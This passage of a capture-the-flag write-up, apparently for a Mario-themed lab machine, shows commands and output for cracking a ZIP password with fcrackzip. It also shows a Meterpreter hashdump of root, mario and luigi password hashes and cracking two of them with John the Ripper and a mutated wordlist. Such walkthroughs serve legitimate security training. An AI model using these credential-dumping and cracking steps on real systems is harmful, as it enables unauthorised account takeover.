 ```shell_session
root@kali:~# fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt flag.zip -v
found file 'flag.txt', (size cp/uc    216/   338, flags 9, chk 1208)


PASSWORD FOUND!!!!: pw == ilovepeach

root@kali:~# unzip flag.zip
Archive:  flag.zip
[flag.zip] flag.txt password:
  inflating: flag.txt   
```

The first flag contained a message from mr_h4sh that also indicates that in addition to finding the flag, the user should also be attempting to get the passwords for all the users on the machine:

> Well done :D If you reached this it means you got root, congratulations.
Now, there are multiple ways to hack this machine. The goal is to get all the passwords of all the users in this machine. If you did it, then congratulations, I hope you had fun :D

> Keep in touch on twitter through @mr_h4sh

> Congratulations again!

> mr_h4sh

## Finding Mario's Password
With the previous message from mr_h4sh in mind, I ran a couple of post modules in the Meterpreter session to gather the password hashes and see if any SSH credentials were stored on the system. No SSH credentials were found, but I had the hashes that I could try to crack using JTR:

```shell_session
meterpreter > run post/linux/gather/hashdump

[+] root:$6$ZmdseK46$FTvRqEZXdr3DCX2Vd6CXWmWAOJYIjcAI6XQathO3/wgvHEoyeP6DwL3NHZy903HXQ/F2uXiTXrhETX19/txbA1:0:0:root:/root:/bin/bash
[+] mario:$6$WG.vWiw8$OhoMhuAHSqPYTu1wCEWNc4xoUyX6U/TrLlK.xyhRKZB3SyCtxMDSoQ6vioNvpNOu78kQVTbwTcHPQMIDM2CSJ.:1000:1000:Mario,,,:/home/mario:/bin/bash
[+] luigi:$6$kAYr2OVy$1qBRKJIWqkpNohmMIP3r3H3yPDQ9UfUBcO4pahlXf6QfnqgW/XpKYlQD4jN6Cfn.3wKCWoM7gPbdIbnShFJD40:1001:1001::/home/luigi:/usr/bin/lshell
[+] Unshadowed Password File: /root/.msf4/loot/20170612220320_default_10.2.0.104_linux.hashes_381142.txt
```

Once I had the hashes, I created a new word list using Mario's ZIP file password [`ilovepeach`] as the seed for the permutations and ran JTR to get the last two passwords from the system:

```shell_session
root@kali:~# echo "ilovepeach" > mariopass.txt
root@kali:~# john --wordlist=mariopass.txt --rules --stdout > mario-mutation.txt
Press 'q' or Ctrl-C to abort, almost any other key for status
49p 0:00:00:00 100.00% (2017-06-13 00:36) 816.6p/s Ilovepeaching

root@kali:~# john --wordlist=mario-mutation.txt /root/.msf4/loot/20170612220320_default_10.2.0.104_linux.hashes_381142.txt
Created directory: /root/.john
Warning: detected hash type "sha512crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepeach!      (mario)
ilovepeach!      (root)
```
